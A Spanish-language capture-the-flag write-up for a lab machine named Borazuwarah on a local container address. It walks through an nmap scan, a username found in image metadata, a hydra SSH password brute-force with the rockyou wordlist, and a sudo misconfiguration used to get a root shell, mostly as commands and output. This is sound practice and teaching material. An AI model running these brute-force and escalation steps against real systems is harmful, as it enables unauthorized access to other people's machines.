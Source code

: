 # Explotación de la máquina Borazuwarah

## Información general
- **Nombre de la máquina**: Borazuwarah
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: HTTP (puerto 80), SSH (puerto 22)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
sudo nmap -sV -sC 172.17.0.2

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 12:45 -05
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Nos muestra que solo tenemos el 22 de ssh y el 80 con apache.

Primero revisamos la web.

Vemos que solo hay una imagen y no hay comentarios ni nada asi que descargamos la imagen por si esconde algo

## Exiftool

Usaremos la herramienta exiftool para ver los detalles de la imagen 

```bash
exiftool img.jpeg                      

```
```                                           
ExifTool Version Number         : 12.76
File Name                       : img.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:12:04 22:53:30-05:00
File Access Date/Time           : 2024:12:04 22:54:55-05:00
File Inode Change Date/Time     : 2024:12:04 22:53:30-05:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```
Genial escondia un nombre de usuario , ahora con ese nombre de usuario podemos lanzar hydra , recordemos que esta el puerto 22 abierto.

```bash 
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-05 12:49:03
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-05 12:49:09

```
No tarda nada en devolvernos un password , pasamos a conectar por ssh.

```bash

ssh borazuwarah@172.17.0.2 
borazuwarah@172.17.0.2's password: 
Linux e8dd44607fdf 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

```
Una vez conectados buscamos como escalar yo siempre ejecuto sudo -l primero.

```bash 
Matching Defaults entries for borazuwarah on e8dd44607fdf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on e8dd44607fdf:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Como vemos podemos ejecutar bash con permisos elevados.

```bash 
sudo bash

root@e8dd44607fdf:/home/borazuwarah# whoami
root
```
Llegamos al final somos root!!!

